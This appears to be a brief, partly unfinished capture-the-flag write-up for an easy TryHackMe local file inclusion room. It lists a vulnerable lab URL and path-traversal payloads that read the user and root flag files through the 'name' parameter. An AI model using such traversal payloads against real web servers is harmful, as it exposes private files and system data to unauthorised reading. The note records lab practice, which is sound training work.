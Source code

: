 # LFI 🧭

Names | Details
--------|-----
Source | tryhacckme
Level     | easy
Os |linux

**Notes :**




## Gaining Access 😉

- just find a LFI vulnerable url  "http://10.10.145.12/article?name="



## Maintaining Access 🥷
- user flag :http://10.10.145.12/article?name=../../../../../../../../../home/falcon/user.txt
- root flag :user flag :http://10.10.145.12/article?name=../../../../../../../../../root/root.txt
## Important commands 🔥
- 

## Post Exploitation ✴️
- User flag : /home/falcon/user.txt
- Root flag : /root/root.txt
## Tips 💡
- something


--------------------------------
**By Whois~TCP ** 🤓🖥️










